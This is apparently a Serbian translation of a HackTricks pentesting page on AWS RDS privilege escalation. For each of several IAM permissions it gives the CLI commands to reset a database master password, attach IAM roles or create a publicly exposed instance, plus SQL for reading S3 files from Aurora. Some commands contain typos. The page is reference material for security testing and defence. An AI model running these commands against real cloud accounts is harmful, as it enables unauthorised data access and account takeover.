 # AWS - RDS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## RDS - Relational Database Service

Za više informacija o RDS pogledajte:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

Sa tom dozvolom napadač može **izmeniti lozinku master korisnika**, i korisničko ime u bazi podataka:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Biće potrebno da možete da **kontaktirate bazu podataka** (obično su dostupne samo iz unutrašnjih mreža).

**Potencijalni uticaj:** Pronalaženje osetljivih informacija u bazama podataka.

### rds-db:connect

Prema [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) korisnik sa ovom dozvolom može da se poveže na DB instance.

### Zloupotreba RDS Role IAM permissions

#### Postgresql (Aurora)

> [!TIP]
> Ako pokrenete **`SELECT datname FROM pg_database;`** i pronađete bazu podataka zvanu **`rdsadmin`**, znate da se nalazite u **AWS postgresql bazi**.

Prvo možete proveriti da li je ova baza korišćena za pristup nekim drugim AWS servisima. To možete proveriti gledajući instalirane ekstenzije:
```sql
SELECT * FROM pg_extension;
```
Ako nađete nešto poput **`aws_s3`** možete pretpostaviti da ova baza ima **neki vid pristupa over S3** (postoje i druge ekstenzije kao što su **`aws_ml`** i **`aws_lambda`**).

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`** možete videti da li **cluster ima bilo koju IAM Role pridruženu** u polju **`AssociatedRoles`**. Ako ih ima, možete pretpostaviti da je baza bila **pripremljena za pristup drugim AWS servisima**. Na osnovu **name of the role** (ili ako možete dobiti **`permissions`** role) možete **pogoditi** koji dodatni pristup baza ima.

Sada, da biste **read a file inside a bucket** morate znati punu putanju. Možete ga pročitati pomoću:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ako biste imali **raw AWS credentials**, mogli biste ih takođe koristiti za pristup S3 podacima pomoću:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **ne mora da menja nijednu promenljivu parametarske grupe** da bi mogao da pristupi S3.

#### Mysql (Aurora)

> [!TIP]
> Unutar mysql-a, ako pokrenete upit **`SELECT User, Host FROM mysql.user;`** i postoji korisnik pod imenom **`rdsadmin`**, možete pretpostaviti da ste unutar **AWS RDS mysql db**.

Unutar mysql-a pokrenite **`show variables;`** i ako promenljive kao što su **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** imaju vrednosti, možete pretpostaviti da je baza podataka pripremljena za pristup S3 podacima.

Takođe, ako imate dozvole da pokrenete **`aws rds describe-db-clusters`** možete proveriti da li klaster ima neku **associated role**, što obično znači pristup AWS servisima).

Sada, da biste **pročitali fajl unutar bucket-a** morate znati punu putanju. Možete ga pročitati sa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Napadač sa dozvolama `rds:AddRoleToDBCluster` i `iam:PassRole` može **dodati određenu ulogu postojećoj RDS instanci**. To bi moglo omogućiti napadaču da **pristupi osetljivim podacima** ili izmeni podatke u toj instanci.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instance.\
Imajte na umu da neki DB-ovi zahtevaju dodatne konfiguracije kao što je Mysql, koji takođe zahteva navođenje role ARN u grupama parametara.

### `rds:CreateDBInstance`

Samo sa ovom dozvolom napadač bi mogao da kreira **novu instancu unutar klastera** koji već postoji i ima prikačenu **IAM role**. Neće moći da promeni lozinku master korisnika, ali bi mogao da izloži novu instancu baze podataka internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

Napadač koji ima dozvole `rds:CreateDBInstance` i `iam:PassRole` može **da kreira novu RDS instancu sa specificiranom ulogom prikačenom**. Napadač potom potencijalno može **pristupiti osetljivim podacima** ili izmeniti podatke unutar instance.

> [!WARNING]
> Some requirements of the role/instance-profile to attach (from [**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - Profil mora postojati na vašem nalogu.
> - Profil mora imati IAM ulogu koju Amazon EC2 ima dozvole da preuzme.
> - Ime instance profila i ime povezane IAM role moraju počinjati prefiksom `AWSRDSCustom` .
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Mogući uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Napadač sa permisijama `rds:AddRoleToDBInstance` i `iam:PassRole` može **dodati određenu rolu postojećoj RDS instanci**. Ovo bi napadaču omogućilo da **pristupi osetljivim podacima** ili izmeni podatke u instanci.

> [!WARNING]
> DB instanca mora biti van klastera za ovo
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Potencijalni uticaj**: Pristup osetljivim podacima ili neovlašćene izmene podataka u RDS instanci.

{{#include ../../../../banners/hacktricks-training.md}}
